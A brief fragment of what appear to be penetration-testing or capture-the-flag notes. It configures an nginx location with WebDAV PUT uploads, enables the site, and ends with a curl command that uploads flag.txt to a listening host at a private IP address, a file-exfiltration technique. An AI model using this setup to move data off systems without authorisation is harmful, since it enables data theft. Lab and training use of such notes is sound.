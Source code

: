     location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
- symlink sites-available to sites-enabled sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

then you can curl -T flag.txt http://192.168.50.93:9001/SecretUploadDirectory/flag.txt

